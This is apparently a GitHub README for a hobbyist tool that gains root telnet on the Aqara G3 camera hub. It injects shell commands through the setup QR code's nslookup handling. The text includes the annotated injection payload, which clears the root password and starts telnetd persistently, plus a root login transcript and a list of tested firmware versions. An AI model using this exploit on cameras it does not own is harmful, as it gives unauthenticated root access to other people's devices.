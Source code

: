 # aQRootG3 #
### Enable telnet via qrcode command injection for Aqara G3 hub ###

<p align="center" width="100%">
    <img src="https://user-images.githubusercontent.com/1288525/146663111-146c18cc-f337-49a9-99b9-0e8f93e97e3a.jpg"> 
</p>


Intro
---------------
I was disappointed to see the Aqara G3 camera did not ship with telnet enabled so I managed to grab a copy of a firmware update for some good 'ol static analysis which confirmed none of the previous methods were going to work. Whilst going through  "ha_master" I did see that one of the variables passed in by the setup qrcode is thrown through sprintf as "nslookup %s" and subsequently passed to popen. (yay)
Getting telnet was fairly trivial, getting persistent telnet in one shot within the 132 char sprintf buffer and on a readonly filesystem was a little more challenging.
(Aqara have also changed their key ciphering for ssid and pwd)


Usage
---------------
```bash
usage: aQRootG3.py [-h] ssid pwd [filename]

aQRootG3 v0.2
Enable telnet via qrcode command injection for Aqara G3 hub

positional arguments:
  ssid        Wireless SSID
  pwd         Wireless Password
  filename    (Optional) Save QR Code as image

optional arguments:
  -h, --help  show this help message and exit
```


Steps
---------------
1. Reset the camera by pressing the button 10 times quickly.
2. When prompted (albeit probably in chinese) scan the QR code you've generated
3. This will give a failed message (due to invalid bind_key)
4. Add device to Aqara home as normal.
5. Enjoy.

```bash
$ telnet x.x.x.x
Trying x.x.x.x...
Connected to x.x.x.x.
Escape character is '^]'.

Camera-Hub-G3-BEEF login: root
Password:
1 ulimit=256
~ # uname -a
Linux Camera-Hub-G3-BEEF 4.9.84 #67 SMP PREEMPT Mon Sep 6 17:51:23 CST 2021 armv7l GNU/Linux
```


Payload Explanation
---------------
```python
payload=[
    'y=/data/scripts/post_init.sh',         
    '"fw_man"ager.sh -t -f',                        # Create default /data/scripts/post_init.sh
    'echo -e `agetprop persist.app.bind_key`>$y',   # Write post_init[] content below to post_init.sh
    'tail -n2 $y|sh'                                # Clear $USER password, enable tty and start telnetd
],
post_init = [
    '#!/bin/sh',
    'fw_manager.sh -r',                             # Start firmware as normal
    'passwd -d $USER',                              # Clear $USER password
    'fw_manager.sh -t -k'                           # Enable tty and start telnetd
],
}
```

Tested Versions
---------------

| Firmware Version | Status |
| --------------- | -- |
| 3.2.7_0019.0004 | :white_check_mark: |
| 3.3.2_0003.0004  | :white_check_mark: |
| 3.3.4_0007.0004  | :white_check_mark: |


